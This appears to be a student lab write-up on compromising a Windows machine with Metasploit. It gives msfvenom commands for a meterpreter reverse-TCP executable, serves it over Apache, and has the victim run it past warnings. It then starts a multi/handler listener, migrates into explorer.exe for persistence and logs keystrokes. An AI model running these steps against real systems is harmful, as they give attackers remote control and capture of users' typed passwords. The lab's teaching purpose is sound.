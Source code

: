 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig

## OUTPUT:

![image](https://github.com/Catty12384/Compromising-windows-using-Metasploit/assets/120629225/da353d35-163a-4c9c-9292-57d3d570cd60)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![image](https://github.com/Catty12384/Compromising-windows-using-Metasploit/assets/120629225/68408bad-cbc3-401d-98b8-9bb0b5b1c853)

copy the fun.exe into the apache /var/www/html folder

![image (3)](https://github.com/Catty12384/Compromising-windows-using-Metasploit/assets/120629225/8dd4bbfb-e900-4cbd-acdd-afdfafc8492b)

Start apache server sudo systemctl apache2 start

![image (4)](https://github.com/Catty12384/Compromising-windows-using-Metasploit/assets/120629225/ec22f85a-9849-4a6f-89fd-721a516cc895)

Check the status of apache2

![image](https://github.com/Catty12384/Compromising-windows-using-Metasploit/assets/120629225/60c2c633-daef-4421-b19a-a2f36be948b5)

Invoke msfconsole:

## OUTPUT: 

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![image](https://github.com/Catty12384/Compromising-windows-using-Metasploit/assets/120629225/3c47d83d-7e0e-4b64-9a5c-70520f47b4bb)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/Catty12384/Compromising-windows-using-Metasploit/assets/120629225/13815e74-4261-4a08-b80c-adb6847b1773)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
Starting a command and control Server use multi/handler 6out set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/Catty12384/Compromising-windows-using-Metasploit/assets/120629225/c3a211a0-5a0f-475b-a531-7d6bf902c4e9)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156 

![image](https://github.com/Catty12384/Compromising-windows-using-Metasploit/assets/120629225/09610854-4615-42b2-9a6e-2fc6f7994f37)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/Catty12384/Compromising-windows-using-Metasploit/assets/120629225/810b0c86-cdc9-4dcb-a0b6-3f4592813653)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/Catty12384/Compromising-windows-using-Metasploit/assets/120629225/a581b811-38b6-46e1-a6de-bd3253408437)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
